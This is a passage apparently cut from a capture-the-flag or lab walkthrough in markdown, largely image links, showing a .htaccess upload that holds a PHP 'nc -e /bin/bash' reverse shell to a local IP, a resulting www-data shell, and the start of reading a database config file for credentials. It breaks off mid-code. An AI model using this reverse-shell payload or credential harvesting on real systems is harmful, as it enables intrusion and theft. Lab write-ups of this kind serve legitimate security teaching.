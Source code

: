         ![](./img/web_05.png)
    - a.htaccess
        ```
        #<?php exec("nc -e /bin/bash 192.168.0.4 1234");?>
        ```
        ![](./img/web_06.png)
- get a user shell (www-data)
    ![](./img/web_07.png)
- get database user and password
    ```
    www-data@stardust:/var/www/html/config$ cat config_db.php
    <?php
    class DB extends DBmysql {